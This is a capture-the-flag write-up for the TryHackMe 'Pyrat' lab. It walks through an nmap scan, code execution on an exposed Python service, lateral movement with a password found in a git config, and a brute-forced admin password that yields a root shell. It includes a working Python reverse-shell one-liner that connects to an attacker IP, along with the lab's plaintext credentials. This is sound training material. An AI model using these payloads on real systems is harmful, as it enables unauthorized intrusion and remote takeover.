 # TryHackMe-Pyrat

## Initial numeration:

Target IP: ```10.10.101.86```

I'll start with a simple port scan.
```bash
nmap -sC -p- 10.10.101.86
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-21 18:18 EEST
Nmap scan report for 10.10.101.86
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 30:b8:33:27:1a:f3:a7:5c:58:1c:2f:ee:b2:b3:98:25 (RSA)
|   256 10:b4:0e:ef:db:05:3d:b5:a4:45:71:fd:17:a6:34:0a (ECDSA)
|_  256 8d:5d:bd:31:73:10:5a:cf:51:d3:a5:ea:15:e0:d8:33 (ED25519)
8000/tcp open  http-alt
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests

Nmap done: 1 IP address (1 host up) scanned in 68.42 seconds
```

Connecting to the following URL: ```http://10.10.101.86:8000``` we get the following message: ```Try a more basic connection```. I'll try to connect via NetCat.

```bash
nc 10.10.101.86 8000                 
sa
name 'sa' is not defined
```

That looks like a python error. We can try some simple python code.
```python
print("hi")
hi
```

## Initial access
I'll use a simple python reverse hell payload:
```python 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.56.37",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


## Lateral Movement:
After looking through the file system we get to ```/opt/dev/.git``` where we can find a ```config``` file containg the password for the user ```think```:
```
username = think
password = _TH1NKINGPirate$_
```

I'll use ssh to connect as the ```think``` user.
```bash
ssh think@10.10.101.86
_TH1NKINGPirate$_
```

Going back to the git folder we can now revet to th previous commit which gets us access to:
```bash
git revert HEAD

cat pyrat.py.old 
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

...............................................

```

```python
print(globals())
{'__name__': '__main__', 
'__doc__': None, 
'__package__': None, 
'__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f6171a774c0>, 
'__spec__': None, 
'__annotations__': {}, 
'__builtins__': <module 'builtins' (built-in)>, 
'__file__': '/root/pyrat.py', 
'__cached__': None, 
'socket': <module 'socket' from '/usr/lib/python3.8/socket.py'>, 
'sys': <module 'sys' (built-in)>, 
'StringIO': <class '_io.StringIO'>, 
'datetime': <module 'datetime' from '/usr/lib/python3.8/datetime.py'>, 
'os': <module 'os' from '/usr/lib/python3.8/os.py'>, 
'multiprocessing': <module 'multiprocessing' from '/usr/lib/python3.8/multiprocessing/__init__.py'>, 
'manager': <multiprocessing.managers.SyncManager object at 0x7f61719d7640>, 
'admins': <ListProxy object, typeid 'list' at 0x7f617194b9a0>, 
'handle_client': <function handle_client at 0x7f61713228b0>, 
'switch_case': <function switch_case at 0x7f6171322e50>, 
'exec_python': <function exec_python at 0x7f6171322ee0>, 
'get_admin': <function get_admin at 0x7f6171322f70>, 
'shell': <function shell at 0x7f6171329040>, 
'send_data': <function send_data at 0x7f61713290d0>, 
'start_server': <function start_server at 0x7f6171329160>, 
'remove_socket': <function remove_socket at 0x7f61713291f0>, 
'is_http': <function is_http at 0x7f6171329280>, 
'fake_http': <function fake_http at 0x7f6171329310>, 
'change_uid': <function change_uid at 0x7f61713293a0>, 
'host': '0.0.0.0', 'port': 8000}
```

## Privilege Escalation:

After playing around with the http server I got to this:
```bash
nc 10.10.88.124 8000
admin
Password:
```

So, I'll make a simple python script to brute force the password.

```
b'abc123\n'
b'Welcome Admin!!! Type "shell" to begin\n'
```

And now we can use the password to start a root shell using this custom service.
```
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell
# whoami
whoami
root
```